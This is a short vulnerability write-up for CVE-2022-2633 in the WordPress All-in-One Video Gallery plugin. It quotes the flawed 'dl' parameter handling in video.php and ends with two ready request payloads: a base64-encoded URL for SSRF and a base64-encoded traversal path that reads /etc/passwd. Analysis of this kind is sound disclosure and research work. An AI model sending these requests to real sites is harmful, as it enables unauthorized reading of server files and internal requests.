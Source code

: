 # WordPress All-in-One Video Gallery video.php Arbitrary file reading vulnerability CVE-2022-2633

## Vulnerability Description

WordPress All-in-One Video Plugin Gallery video.php file has SSRF and arbitrary file reading vulnerability. The attacker reads any file by sending a specific request package.

## Vulnerability Impact

<span style="background-color:rgb(18, 160, 255); padding: 2px 4px; border-radius: 3px; color: white;">WordPress All-in-One Video Gallery  <= 2.6.0</span>

## Plugin Name

<span style="background-color:rgb(18, 160, 255); padding: 2px 4px; border-radius: 3px; color: white;">All-in-One Video Gallery</span>

<span style="background-color:rgb(18, 160, 255); padding: 2px 4px; border-radius: 3px; color: white;">https://downloads.wordpress.org/plugin/all-in-one-video-gallery.2.6.0.zip</span>

## Vulnerability reappears

Compare the files that are fixed to find the files with vulnerabilities wp-content/plugins/all-in-one-video-gallery/public/video.php

![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/1665396901441-051cdcb4-9932-48f7-96f7-b57aa55b37b0.png)

Here, the dl parameter is received. When the dl parameter is not a numeric type, the parameter will be decoded and passed to base64.

```sql
		if ( is_numeric( $_GET['dl'] ) ) {
			$file = get_post_meta( (int) $_GET['dl'], 'mp4', true );
		} else {
			$file = base64_decode( $_GET['dl'] );
		}

		if ( empty( $file ) ) {
			die( esc_html__( 'Download file URL is empty.', 'all-in-one-video-gallery' ) );
           	exit;
        }
```

![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/1665398476539-d7b73586-47fb-49ac-aefc-75518d40abf3.png)

When http:// or https:// does not exist in the passed parameter, the value of the parameter $formatted_path changes

![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/1665400025228-ec8b2210-1683-4f95-b05d-085338323586.png)

When $formatted_path is url, an echo can be obtained by passing in the target URL encoded by base64.

```sql
/index.php/video/?dl=aHR0cHM6Ly93d3cuYmFpZHUuY29t
```

![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/1665400131718-e35e3a69-9fef-4717-b22c-25e07f659dac.png)

Looking at the last fragment of the code, there is a vulnerability to read any file

![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/1665400190046-5f6608e0-f8d6-4291-ba23-9d468a95ac46.png)

```sql
/index.php/video/?dl=Li4vLi4vLi4vLi4vLi4vLi4vZXRjL3Bhc3N3ZA==
```

![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/1665400254761-b7c390f4-6412-4104-a806-856aabf21e98.png)